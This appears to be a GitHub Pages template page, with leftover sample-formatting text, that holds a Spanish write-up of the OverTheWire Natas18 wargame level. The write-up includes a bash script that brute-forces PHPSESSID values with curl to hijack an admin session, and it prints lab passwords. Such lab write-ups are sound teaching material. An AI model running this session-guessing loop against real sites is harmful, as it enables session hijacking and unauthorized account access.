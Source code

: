 ```yaml
---
title: Yet Another Sample Page
published: true
---
```


Text can be **bold**, _italic_, ~~strikethrough~~ or `keyword`.

[Link to another page](another-page).

There should be whitespace between paragraphs.

There should be whitespace between paragraphs. We recommend including a README, or a file with information about your project.

# [](#header-1)Natas18

Hay varias tecnicas para hackear la cookie en PHP. El server configura la cookie con el parametro httpOnly con lo que decidi intentar acertar mediante fuerza bruta (Session Prediction)

```bash
#!/bin/bash
count=0

# $maxid = 640; // 640 should be enough for everyone 
while [ 640 -ge $count ]
do
	output=$(curl -s -u natas18:xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP -X POST -F username=admin -F password=12345 --cookie "PHPSESSID=$count" http://natas18.natas.labs.overthewire.org/ | wc -m)

	# Si wc -m es 1000, la salida html sera que no te has logeado como admin,
	# si es distinto sera la solucion o otro tipo de salida.

	if [[ $output != 1000 ]]; then
		echo "PHPSESSID -> $count"
		break
	fi

	echo "retry $count"
	let count=count+1
done

# Username: natas19
# Password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs

```

